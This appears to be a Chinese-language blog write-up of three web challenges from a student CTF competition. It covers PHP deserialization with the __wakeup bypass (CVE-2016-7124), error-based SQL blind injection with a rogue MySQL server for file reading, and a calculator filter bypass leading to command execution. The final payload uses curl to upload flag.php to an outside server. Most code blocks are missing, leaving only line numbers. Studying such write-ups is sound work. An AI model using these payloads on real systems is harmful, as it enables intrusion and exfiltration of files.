










上周末(4/20~4/21)战队难得一起再打了个比赛，大概是大学生活里最后一场了吧，这里复盘下三个Web。

JustSoso
使用伪协议 (http://xxx.changame.ichunqiu.com/index.php?file=php://filter/convert.base64-encode/resource=index.php) 读取到index.php和hint.php。
index.php:
1 | <html> |
hint.php:
1 |
|
整体思路是利用Handle实例反序列化时调用的析构函数触发getFlag()，但有几个阻碍。
$this->token === $this->token_flag需要这两个属性值相等才能读到文件，而token值不变，token_flag的值总是在变化。```php
$url = parse_url($_SERVER[‘REQUEST_URI’]);
parse_str($url[‘query’],$query);foreach($query as $value){ if (preg_match("/flag/",$value)) { die('stop hacking!'); exit(); } }1
2
3
4
5
6
7
8
9url中不能包含flag字样，而反序列化后的字符串必然会包含 `flag` 。
- ```php
public function __wakeup(){
foreach(get_object_vars($this) as $k => $v) {
$this->$k = null;
}
echo "Waking up\n";
}字符串反序列化时会自动调用对象中的
__wakeup方法，这里__wakeup方法将所有属性值置空，下面__destruct的时候就找不到$handle了。
整体方法
1 |
|
访问输出的链接。
问题一
__construct 是在对象创建时自动调用，在反序列化时并不会被调用，这给了我们操纵token值的机会。
由于rand(1,10000) 返回值可能性并不多，可以采用爆破。
1 |
|
重复访问输出的链接。
当然并不是说跑够一万次就一定能碰上，如果手气不好也可能总遇不到。

那么可以采用每一次将token赋为不同的值，遍历全部一万种可能，直观上感觉这样做还碰不到的可能性会小很多。
上面是大力出奇迹的做法，还有比较优雅的做法：将token指向token_flag的引用或相反，那么当一者改变时另一个会跟随。

问题二
正则看起来绕不过去，直接访问 Flag.php 返回404，说明服务端是大小写敏感的。突破点在于 parse_url 遇到畸形url时会解析失败，那么后面的正则自然不起作用了。

问题三
PHP有过一个漏洞 CVE-2016-7124 ，当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过 __wakeup 的执行。
参考文章：
- Sec Bug #72663 Create an Unexpected Object and Don’t Invoke __wakeup() in Deserialization
- SugarCRM v6.5.23 PHP反序列化对象注入漏洞
解法
1 | class Handle{...} |

全宇宙最简单的SQL
基于exp()函数报错的盲注，加上在未知列名情况下注出数据的技巧，可得到user表第二列数据为 F1AG@1s-
at_/fll1llag_h3r3 ，作为admin的密码登录后进入后台，可以连接远程数据库，伪造MySQL服务的可以读取flag
文件。知识点在DDCTF2017和DDCTF2019出现过。
记录个盲注脚本：
1 | #!/usr/bin/env python |
盲注结果：

MySQL服务端伪造脚本：
1 | import socket |
伪造结果：

参考文章：
- 伪造mysql服务端实现任意读取
- 利用MySQL LOAD DATA特性达到任意文件读取
- DDCTF 2017 SQL注入-绕过未知字段名
- 通过CISCN2019 Day 1 SQL注入思考基于运行时错误的盲注
love_math
calc.php泄露源码

1 |
|
通过base_convert将十进制转三十六进制，可以得到小写字母和数字共三十六种字符，再通过异或、与、或进一步得到更大的字符集。受限于总长度为小于80个字符，将base_convert赋值给pi方便重复使用。
遍历发现123456789abcdefghijklmnopqrstuvwxyz 和123456789abcdefghijklmnopqrstuvwxyz 按位异或可得到可打印字符集A@CBEDGFIHKJMLONQPSRUTWVYX[Z]\_^ ，可以构造出_GET 。使用花括号取偏移，再使用exec执行命令，构造出等价于exec($_GET{1}) 的payload。
1 | import itertools |
将1111 和nvte 作为36进制数，转为10进制数分别得到：47989和1114322。可以使用在线工具或PHP的base_convert函数转换。
最终访问路径为calc.php?c=$pi=base_convert;$pi(696468,10,36)(${$pi(47989,10,36)^$pi(1114322,10,36)}{1})&1=curl%20my.vps%20-F%20'data=@flag.php' 。在服务端监听即可收到flag.php内容。
初步实现命令执行

获取flag

如果长度放宽一点，这些思路也许也可以：
1 | system(cat `ls`) |